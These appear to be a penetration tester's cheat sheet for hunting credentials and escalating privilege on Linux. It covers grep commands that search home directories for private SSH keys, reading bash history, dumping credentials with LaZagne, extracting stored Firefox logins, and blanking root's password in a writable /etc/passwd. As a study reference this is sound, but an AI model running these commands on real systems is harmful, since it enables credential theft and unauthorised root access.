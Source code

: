 ### Cronjobs

- location `/etc/crontab` `/etc/cron.daily`, `/etc/cron.hourly`, `/etc/cron.monthly`, `/etc/cron.weekly` or `/etc/cron.d` in debian

### SSH

- `grep -rnw "PRIVATE KEY" /home/* **2**>/dev/null | grep ":1"`
- `grep -rnw "ssh-rsa" /home/* **2**>/dev/null | grep ":1"`

### **History**

- `cat ~/.bash_history`

### Memory and Cache

- [\*\*LaZagne](https://github.com/AlessandroZ/LaZagne/releases/) → `sudo python lazagne.py all`\*\*

### Firefox stored credentials

- `ls -l .mozilla/firefox/ | grep default`
- `cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .`
- https://github.com/unode/firefox_decrypt can be used to decrypt (use python3.9)
- Lazagne also works if supported browser is present

## Passwd, Shadow & Opasswd

- if we have write access to `/etc/passwd` we can remove the password field(`x`) for root user, so that system will not send password prompt when user tries to login as root
  `root:x:0:0:root:/root:/bin/bash`
  `root::0:0:root:/root:/bin/bash`

### **Algorithm Types**

- `$1$` – MD5
- `$2a$` – Blowfish
- `$2y$` – Eksblowfish
- `$5$` – SHA-256
- `$6$` – SHA-512

### **Opasswd**

The file where old passwords are stored is the `/etc/security/opasswd`.

---

---

---

---

---